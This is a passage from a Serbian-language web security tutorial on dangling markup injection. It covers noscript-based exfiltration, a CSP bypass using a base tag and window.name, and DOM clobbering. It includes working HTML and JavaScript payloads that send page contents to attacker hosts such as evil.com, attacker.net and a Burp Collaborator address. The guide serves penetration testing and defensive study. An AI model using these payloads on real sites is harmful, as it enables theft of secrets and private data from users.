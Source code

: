 ### Krađa tajnih tekstova u čistom obliku putem noscript

`<noscript></noscript>` je oznaka čiji će sadržaj biti tumačen ako pregledač ne podržava JavaScript (možete omogućiti/onemogućiti JavaScript u Chrome-u na [chrome://settings/content/javascript](chrome://settings/content/javascript)).

Način za eksfiltraciju sadržaja web stranice od tačke ubacivanja do dna ka sajtu pod kontrolom napadača biće ubacivanje ovoga:

```html
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```

### Bypassing CSP sa korisničkom interakcijom

Iz ovog [portswiggers istraživanja](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) možete naučiti da čak i iz **najstrože ograničenih CSP okruženja** možete i dalje **izfiltrirati podatke** sa određenom **korisničkom interakcijom**. U ovom slučaju ćemo koristiti payload:

```html
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```

Napomena da ćete zatražiti od **žrtve** da **klikne na link** koji će je **preusmeriti** na **payload** koji kontrolišete. Takođe, obratite pažnju da će **`target`** atribut unutar **`base`** oznake sadržati **HTML sadržaj** do sledećeg jednostrukog navodnika.\
To će rezultirati time da će **vrednost** **`window.name`** biti sav taj **HTML sadržaj** kada se klikne na link. Stoga, pošto **kontrolišete stranicu** na koju žrtva pristupa klikom na link, možete pristupiti tom **`window.name`** i **eksfiltrirati** te podatke:

```html
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```

### Zavaravajući radni tok skripte 1 - Napad na HTML namespace

Umetnite novu oznaku sa id-om unutar HTML-a koja će prepisati sledeću i sa vrednošću koja će uticati na tok skripte. U ovom primeru birate sa kim će se informacije deliti:

```html
<input type='hidden' id='share_with' value='fredmbogo'>     ← Injected markup
...
Share this status update with:                              ← Legitimate optional element of a dialog
<input id='share_with' value=''>

...

function submit_status_update() {
...
request.share_with = document.getElementById('share_with').value;
...
}
```

